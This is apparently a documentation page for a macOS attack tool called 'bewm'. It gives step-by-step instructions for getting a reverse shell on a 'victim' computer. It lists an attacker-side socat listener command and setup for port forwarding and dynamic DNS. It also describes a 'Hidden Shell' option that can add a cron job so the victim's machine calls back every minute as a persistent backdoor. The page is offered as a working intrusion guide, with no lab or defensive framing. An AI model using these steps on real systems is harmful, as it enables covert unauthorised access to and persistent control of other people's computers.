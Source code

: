 # Creating a reverse shell for macOS

::: warning
This section is VERY work-in-progress, things will change!
:::

## Prerequisites

1. Target computer has `bewm`
2. Attacking computer has [`socat`](https://github.com/andrew-d/static-binaries/tree/master/binaries)
3. Attacking computer has a  static public ip/no-ip
4. Port forwarding set up on your local network to send port 5555 to the attacking computer, ingress and egress

If you're at this stage, you've successfully bewm'd your target. Congratulations! Now, we get to mess with the spoils of our victory.


## Port and IP Setup

In this repo, I use the website `jabster28.myddns.me`, which allows me to have a static address while still having a dynamic IP. Therefore, if you wish to use this yourself, you need to replace it with your public IP (assuming you have a static one) or get a free domain at [no-ip](https://www.noip.com/).

## Local `socat`

Once you've done that, you need to open a terminal on the attacking computer and run

```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

which tells `socat` to expect a full TTY (a proper terminal, with tabbing and job control etc.) and listen for that on port 5555.

::: tip
If you enable adding to cron, you don't need to do this first as the victim will try to connect to the attacking computer every minute.
:::
## Running the executable

Once you've ran the executable, it should check for some dependencies, notably `screen` (comes with every macOS installation) and `socat` (like `nc`, but better; automatically installs if it isn't present). After that, you'll be greeted with some options like so:

![List of choices](./shell.png)

::: warning
Right now, the only working option is the Hidden Shell. Sorry!
:::

For now we'll look at the reverse shell, whch allows us to remotely connect to the victim's computer without them having to set up port forwarding or anything like that.

## Opening the Shell

After that, you can press the "Hidden Shell" option, which will greet you with this:

```bash
? Add this to cron (persist after restart)? (y/N)
```

Adding this to the cronjob will make the computer attempt to connect to the attacker every sixty seconds, and this will persist after a restart, sort of like a long-term backdoor (or until someone runs `crontab -l`).

Once you've selected your choices, hit enter and you should be met with a shell prompt on your terminal window! If you don't like the way things look, you can `brew install fish` and use that prompt instead.